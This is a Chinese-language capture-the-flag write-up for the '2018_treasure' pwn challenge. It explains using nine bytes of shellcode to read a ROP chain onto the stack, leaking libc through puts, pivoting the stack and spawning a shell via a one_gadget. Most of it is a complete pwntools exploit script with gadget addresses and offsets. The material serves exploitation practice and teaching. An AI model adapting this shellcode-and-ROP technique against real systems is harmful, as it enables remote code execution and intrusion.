 [toc]

# 前置知识

- `shellcode`编写
- `mmap`函数
- （可选）栈迁移&`ROP`链

# 整体思路

程序有两个函数，一个叫`settreasure`一个叫`treasure`，第一个函数放置的`shellcode`的地方是不可执行的，因此我这里没管

第二个函数能写`9`字节`shellcode`

这里通过`9`字节`shellcode`来构造一个`read`到`rsp`，然后写`rop`链。

我的`rop`链的思路是泄露`libc`地址，再`read`后面的`rop`链到可读写段并栈迁移过去执行

# exp

```python
from pwn import *
from LibcSearcher import *

filename = './2018_treasure'
context(log_level='debug', arch='amd64')
local = 1
elf = ELF(filename)
libc = ELF('/glibc/2.27-3ubuntu1_amd64/libc.so.6')

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug():
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid, 'b *0x400AB6')
    pause()


def leak_info(name, addr):
    success('{} => {}'.format(name, hex(addr)))

# sh = process(filename)
leak_info('/bin/sh',u64('/bin/sh\x00'))
sh.recv()
sh.sendline('1')
sh.recv()
payload = asm('''push rsp
pop rsi
mov edx, esi
syscall
ret
''')
# debug()
sh.send(payload)
# pause()
pop_rdi = 0x400b83
pop_rsi_r15 = 0x400b81
fake_rbp = 0x601200
leave_ret = 0x4009b8
pop_rbp = 0x400800
payload = p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(fake_rbp) + p64(0xdeadbeaf) + p64(elf.plt['read']) + p64(pop_rbp) + p64(fake_rbp) + p64(leave_ret)
sh.send(payload)
# pause()
puts_leak = u64((sh.recv(6).ljust(8, b'\x00')))
leak_info('puts_leak', puts_leak)
libc.address = puts_leak - 0x809c0
leak_info('libc.address', libc.address)
# debug()
system_addr = libc.sym['system']
bin_sh_addr = next(libc.search(b'/bin/sh\x00'))
one_gadget = [0x4f2c5, 0x4f322, 0x10a38c]
# payload = p64(0xdeadbeaf) + p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr) + p64(0xdeadbeaf)
payload = p64(0xdeadbeaf) + p64(libc.address + one_gadget[1])
sh.send(payload)
sh.interactive()
# pause()
# pause()
# sh.recv()
```

